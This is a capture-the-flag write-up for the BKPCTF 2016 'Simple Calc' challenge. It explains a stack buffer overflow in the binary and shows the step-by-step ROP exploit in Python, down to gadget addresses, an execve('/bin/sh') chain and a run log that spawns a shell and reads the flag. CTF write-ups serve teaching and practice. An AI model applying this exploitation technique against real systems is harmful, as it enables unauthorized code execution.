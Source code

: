 +++
title = "BKPCTF 2016 - Simple Calc"
date =   2016-03-07T22:51:04Z
updated =   2016-03-07T22:51:04Z
authors = ["hugsy"]
aliases = ["/posts/2016/03/07/bkpctf-2016-simple-calc-writeup.html"]

[taxonomies]
tags = ["pwn", "gef", "ida", "bkpctf-2016", "x86"]
categories = ["ctf"]
+++

### Info ###

```bash
~/cur/simple_calc $ file b28b103ea5f1171553554f0127696a18c6d2dcf7
b28b103ea5f1171553554f0127696a18c6d2dcf7: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~/cur/simple_calc $ checksec.sh --file b28b103ea5f1171553554f0127696a18c6d2dcf7
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   b28b103ea5f1171553554f0127696a18c6d2dcf7
```

### Vulnerability ###

`simple_calc` offered a binary that expects us to make some calculations. It will ask for a number of calculations (say *N*) to perform and will `malloc()` *N*x4 bytes in the heap. If we decompile with [IDA](https://www.hex-rays.com/products/ida/), it'll look something like this:

{{ img(src="https://i.imgur.com/aFaqYf6.png" title="vuln_in_ida") }}

Then a loop of *N* iterations will commence,
each iteration offering to perform one of the possible arithmetic operations,
ADD/SUB/MUL/DIV, or exit. Those operations perform pretty much what you expect of them,
which take in 2 DWORD operands, and apply the function. What is worth noticing is that
both operands and result are stored in the `.bss` (therefore at predictable
addresses).

```asm
[...]
.bss:00000000006C4A84 add_operator_2  dd ?                    ; DATA XREF: adds+40
.bss:00000000006C4A84                                         ; adds+69 ...
.bss:00000000006C4A88 add_result      dd ?                    ; DATA XREF: adds+96
.bss:00000000006C4A88                                         ; adds+9C ...
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90                 public div_operator_1
.bss:00000000006C4A90 div_operator_1  dd ?                    ; DATA XREF: divs+13
.bss:00000000006C4A90                                         ; divs+5E ...
.bss:00000000006C4A94 div_operator_2  dd ?                    ; DATA XREF: divs+40
.bss:00000000006C4A94                                         ; divs+69 ...
.bss:00000000006C4A98 div_result      dd ?                    ; DATA XREF: divs+9B
[...]
```

By exiting, `simple_calc` performs a `memcpy()` of the malloc-ed buffer (whose
length is controlled by us) into a stack buffer (of length 0x28 bytes) located
at $rbp+40h.
{{ img(src="https://i.imgur.com/0wcLH24.png" title="overflow") }}

It is then easy to spot the trivial stack buffer overflow.


### Exploitation ###

When an operation is finished, the resulting DWORD is stored inside the malloc-ed
buffer at the offset corresponding of the main loop iteration.
So the game here is to play with those (basic) arithmetic operations to
write arbitrary data in the malloc-ed buffer: for example, if we want to write
0x10001000 | 0x20002000 in our malloc-ed buffer, we would create 2 operations,
then perform:

   1. an ADD with op1=0x10000000 and op2=0x00001000
   1. an ADD with op1=0x20000000 and op2=0x00002000
   1. and so on

By calling successively the same arithmetic operation, say `ADD` (or any other),
we have a predictable way to populate the malloc-ed buffer.

To corrupt the memory we must fill the stack buffer entirely (40 bytes), so make
at least 10 operations. The stack buffer is followed (in the memory layout) by
variables, so we add 24 bytes of junk (3 QWORD), another QWORD for
overwriting the SFP, and a last to overwrite RIP.

``` python
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
```

We execute and a SIGSEGV was well caught (as seen with
[`gef`](https://github.com/hugsy/gef)) :

{{ img(src="https://i.imgur.com/rn4XSOR.png" title="gef") }}

However, the faulty instruction is in the `free()` following the `memcpy()` and
yet not in the return from the main function.
`free()` is trying to remove the chunk pointed by the value stored in $rdi (here
0x4444444444444444). However, a quick look in the man page (`man 3 free`) and we
find our solution:

> The free() function frees the memory space pointed to by ptr,[...] If ptr is
> NULL, no operation is performed.

So let's rebuild our stack accordingly:

```python
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
```

We try again, and we hit the SIGSEGV in the RET. Perfect, time to bypass NX.

```asm
Program received signal SIGSEGV, Segmentation fault.
[...]
0x40157c	 <main+505>  mov    edi,eax
0x40157e	 <main+507>  call   0x4156d0 <free>
0x401583	 <main+512>  mov    eax,0x0
0x401588	 <main+517>  leave
0x401589	 <main+518>  ret 		 ← $pc
0x40158a	 nop    WORD PTR [rax+rax*1+0x0]
0x401590	 <__libc_start_main>  push   r14
```

We want to have a shell (what else, right?) so we need all the gadgets to
syscall execve('/bin/sh', 0, 0).

Bypassing NX is not that hard, all we need are the right gadgets. We choose a
writable address, and write '/bin//sh' (we arbitrarily chose 0x6c3110 in the
`.bss`). Using [`ropgadget`](https://github.com/JonathanSalwan/ROPgadget) makes
it easier than ever:

```asm
0x401c87:                  # pop rsi ; ret
0x6c3110:                  # our writable address
0x44db34:                  # pop rax ; ret
0x6e69622f, 0x68732f2f,    # /bin//sh
0x470f11                   # mov qword ptr [rsi], rax ; ret
0x447233:                  # mov    rax,rsi; ret
0x479295                   # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret
```

At this stage, we have `/bin//sh` written @0x6c3110 and this address inside the
EDI register. Then we can use the gadget `0x437aa9: pop rdx ; pop rsi ; ret` to populate RSI and
RDX with 0. Because it embeds a libc, the binary is full of `syscall`
instructions, we'll use the one at 0x435675.

We now have our full chain:

```python
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars

             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # last overwritten vars
             0x44444444, 0x44444444, # sfp

             0x401c87, 0, # pop rsi ; ret
             0x6c3110,  0x0, # addr rw

             0x44db34, 0, # pop rax ; ret
             0x6e69622f, 0x68732f2f,  #  /bin//sh

             0x470f11, 0, # mov qword ptr [rsi], rax ; ret

             0x447233, 0, # mov    rax,rsi; ret
             0x479295, 0, # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret

             0x44db34, 0x0, # pop rax
             0x3b, 0, # syscall_execve

             0x437aa9, 0x0, # pop rdx ; pop rsi ; ret
             0, 0,
             0, 0,

             0x435675, 0, # syscall()
    ]
```

Run and pwn !

```bash
/cur/simple_calc $ ./simple_calc.py                                                                                                                                         [23:36]
[+] Connected to localhost:5400
[+] Running 45 calculations
[+] Iter 1: got result 0x41414141
[+] Iter 2: got result 0x41414141
[+] Iter 3: got result 0x41414141
[+] Iter 4: got result 0x41414141
[+] Iter 5: got result 0x41414141
[+] Iter 6: got result 0x41414141
[+] Iter 7: got result 0x41414141
[...]
[+] Triggering exploit
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
ls
key
simple_calc
cat key
BKPCTF{what_is_2015_minus_7547}
```

The full exploit is [here](https://gist.github.com/hugsy/88e7137466505e0402ca).
